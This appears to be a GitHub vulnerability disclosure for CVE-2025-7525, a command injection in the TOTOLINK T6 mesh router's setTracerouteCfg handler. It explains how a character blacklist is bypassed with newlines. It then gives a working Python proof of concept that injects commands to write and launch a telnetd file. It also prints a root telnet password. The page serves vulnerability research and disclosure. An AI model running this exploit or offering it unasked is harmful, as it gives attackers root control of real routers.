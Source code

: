 # [CVE-2025-7525](https://www.cve.org/CVERecord?id=CVE-2025-7525)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection bypass vulnerability. This vulnerability can be triggered through the topicurl `setTracerouteCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `command` parameter can cause command injection vulnerability

![image-1](3/1.png)

However `Validity_check` function check for command injection before doing `system` (Ghidra choke so I use IDA instead)

![image-1](3/2.png)

So `;`, `.sh`, `iptables`, `telnetd`, `&`, `|`, `$` and "\`" is blacklist. We can bypass commnad injection with new line `\n`

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setTracerouteCfg",
        "command":"\\n%s \\n"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    execute_command(target_ip, "rm /tmp/hacked")
    execute_command(target_ip, "echo -n tel >> /tmp/hacked")
    execute_command(target_ip, "echo -n netd >> /tmp/hacked")
    execute_command(target_ip, "echo -n ' # Pwned by Elvis!!!' >> /tmp/hacked")
    execute_command(target_ip, "chmod +x /tmp/hacked")
    
    print("[+] /tmp/hacked written. Try telnet %s with root/KL@UHeZ0" % target_ip)
    execute_command(target_ip, "/tmp/hacked")
```

[Video](https://youtu.be/GawLaYfTwYs)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.